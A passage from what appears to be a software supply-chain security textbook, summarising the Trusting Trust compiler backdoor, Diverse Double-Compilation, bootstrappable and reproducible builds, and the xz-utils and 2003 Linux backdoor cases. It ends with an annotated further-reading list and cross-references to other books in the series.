  fixtures, generated/vendored code, dependencies, blobs, and the gap between git and the release
  tarball. **xz-utils** (CVE-2024-3094) lived in exactly those places.
- **Trusting Trust** (Thompson, 1984): a compiler backdoor that injects into a target program *and*
  re-injects itself when compiling the compiler survives deletion from source — it becomes a
  self-perpetuating property of the *binary* toolchain, invisible to any source audit. Source review
  has a floor it cannot see below, extending down through the OS, microcode, and silicon.
- **Diverse Double-Compilation** (Wheeler) detects a Thompson implant *without a trusted compiler* —
  compile the compiler's source through a diverse independent compiler and compare bit-for-bit to
  its self-build; a mismatch exposes the implant. It relocates trust to "two diverse compilers are
  not identically backdoored" and depends on **reproducible builds**.
- **Bootstrappable builds** (stage0, GNU Mes) shrink the unauditable binary seed to a few hundred
  bytes of hand-auditable hex, minimizing the trusted base rather than detecting the implant.
- At fleet scale the trusted base is **shared**; a Trusting-Trust-style compromise in the shared
  toolchain or build platform is fleet-wide and invisible to source review — the deepest SolarWinds
  lesson. Only reproducibility, diversity, a minimized/bootstrappable base, and provenance reach
  below source review.

## Further reading

- **Ken Thompson, "Reflections on Trusting Trust."** Turing Award lecture, *Communications of the
  ACM* 27(8), August 1984. The original; short, and worth reading in full.
  <https://dl.acm.org/doi/10.1145/358198.358210>
- **David A. Wheeler, "Fully Countering Trusting Trust through Diverse Double-Compiling."** PhD
  dissertation, George Mason University, 2009, and the companion paper. The complete DDC method,
  proof, and a worked application to GCC/tcc. <https://dwheeler.com/trusting-trust/>
- **Nicholas Boucher and Ross Anderson, "Trojan Source: Invisible Vulnerabilities."** 2021;
  USENIX Security 2023. CVE-2021-42574 (bidi) and CVE-2021-42694 (homoglyph). Mechanism, affected
  languages, and mitigations. <https://trojansource.codes/>
- **The Underhanded C Contest.** Archives of winning entries and their explanations — the best
  single corpus of "code that survives a primed reviewer." <http://www.underhanded-c.org/>
- **The 2003 Linux kernel backdoor attempt.** Ed Felten's contemporaneous analysis, "The Linux
  Backdoor Attempt of 2003," and the LWN/oss archives of the `wait4` `uid = 0` change.
  <https://freedom-to-tinker.com/2013/10/09/the-linux-backdoor-attempt-of-2003/>
- **The xz-utils backdoor (CVE-2024-3094).** Andres Freund's original oss-security disclosure and
  subsequent analyses of the test-fixture payload and `build-to-host.m4` injection. Full treatment
  in Book 1, Chapter 5. <https://www.openwall.com/lists/oss-security/2024/03/29/4>
- **Bootstrappable Builds, GNU Mes, and stage0.** The project sites and the Guix full-source
  bootstrap write-ups. <https://bootstrappable.org/>, <https://www.gnu.org/software/mes/>, and
  <https://github.com/oriansj/stage0>
- **Reproducible Builds.** The project behind bit-for-bit reproducibility, the foundation both DDC
  and xz-detection rest on. Full treatment in Book 4, Chapter 2. <https://reproducible-builds.org/>
- **Book cross-references:** Book 7, Chapter 1 — SCM Threat Model (git integrity caught the 2003
  attempt); Chapter 3 — Branch Protection, Review, and Two-Person Rules (the review floor and the
  xz trusted-contributor problem); Chapter 6 — Insider Threats and Account Takeover; Chapter 8 —
  Repository Integrity at Scale. **Book 1, Chapter 3** — SolarWinds and 3CX; **Chapter 5** —
  xz-utils; **Chapter 6** — Trust, Threat Models (the conceptual introduction to Trusting Trust);
  **Chapter 9** — Distributed-systems lens. **Book 2, Chapter 4** — Malicious Packages;
  **Chapter 10** — Evaluating Dependencies. **Book 4, Chapter 2** — Hermetic and Reproducible
  Builds; **Chapter 3** — SLSA Provenance; **Chapter 10** — Designing a Secure Build Platform at
  Scale. **Book 5, Chapter 5** — Transparency Logs. **Book 6, Chapter 3** — Base Image Strategy.
